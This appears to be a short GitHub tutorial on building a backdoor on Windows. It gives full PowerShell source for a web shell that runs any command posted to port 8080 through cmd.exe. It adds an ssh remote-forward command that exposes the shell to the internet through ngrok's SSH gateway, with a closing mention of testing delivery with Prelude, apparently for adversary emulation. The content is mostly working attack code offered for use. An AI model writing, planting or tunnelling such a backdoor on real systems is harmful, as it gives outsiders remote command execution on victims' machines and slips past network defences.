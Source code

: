 ### Create a Web Shell back Door, Connect Over Ngrok SSH Gateway.

[Ngrok SSH Gateway](https://ngrok.com/docs#ssh-gateway)

### Create Your SSH Keys On Windows.  Upload Your Keys to ngrok

```
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (C:\Users\mobile/.ssh/id_rsa):
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in C:\Users\mobile/.ssh/id_rsa.
Your public key has been saved in C:\Users\mobile/.ssh/id_rsa.pub.
```

![Screen Shot 2021-06-25 at 8 42 53 PM](https://user-images.githubusercontent.com/83469949/123499713-efb12580-d5f5-11eb-8c84-6caa656e36f1.png)

### Execute Simple Web Shell

```
<#
  .SYNOPSIS
  
  Simple Web Shell over HTTP
  
#>

$Server = '127.0.0.1' #Listening IP. Change This. Or make it a parameter, I don't care ;-)

function Receive-Request {
   param(      
      $Request
   )
   $output = ""
   $size = $Request.ContentLength64 + 1   
   $buffer = New-Object byte[] $size
   do {
      $count = $Request.InputStream.Read($buffer, 0, $size)
      $output += $Request.ContentEncoding.GetString($buffer, 0, $count)
   } until($count -lt $size)
   $Request.InputStream.Close()
   $cmd = $output.Split("=")
   $OutputVariable = &{ cmd.exe /c $cmd[1].Split("+") | Out-String}
   return $OutputVariable
}

$listener = New-Object System.Net.HttpListener
$listener.Prefixes.Add('http://+:8080/') 

$listener.Start()
'Listening ...'
while ($true) {
    $context = $listener.GetContext() # blocks until request is received
    $request = $context.Request
    $response = $context.Response
	$hostip = $request.RemoteEndPoint
	
	if ($request.Url -match '/shellPost$' -and ($request.HttpMethod -eq "POST") ) { 
		
		$message = Receive-Request($request);
		
	}
    if ($request.Url -match '/shell$' -and ($request.HttpMethod -eq "GET")) {
		$enc = [system.Text.Encoding]::UTF8
		$response.ContentType = 'text/html'
		$shellcode = '<form action="/shellPost" method="POST" >
					  Command:<br>
					  <input type="text" name="Command" value="ipconfig.exe"><br>
					  <input type="submit" value="Submit">
					</form>'
		
		$buffer = $enc.GetBytes($shellcode)		
		$response.ContentLength64 = $buffer.length
		$output = $response.OutputStream
		$output.Write($buffer, 0, $buffer.length)
		$output.Close()
		continue
	}
    

    [byte[]] $buffer = [System.Text.Encoding]::UTF8.GetBytes($message)
    $response.ContentLength64 = $buffer.length
    $output = $response.OutputStream
    $output.Write($buffer, 0, $buffer.length)
    $output.Close()
}

$listener.Stop()
```

Note the local port your Web Shell is listening to is 8080.  

### Create your ngrok tunnel To expose the local web shell externally.

`ssh -R webshell.ngrok.io:80:localhost:8080 tunnel.us.ngrok.com http`

### Connect to webshell.ngrok.io/shell

![Screen Shot 2021-06-25 at 8 46 08 PM](https://user-images.githubusercontent.com/83469949/123499793-68b07d00-d5f6-11eb-9401-8ec32bf22b4b.png)

### Now recreate this activity , and delivery and test with Prelude.

### Advantage of this is you don't require the ngrok binary locally. SSH is native to windows.



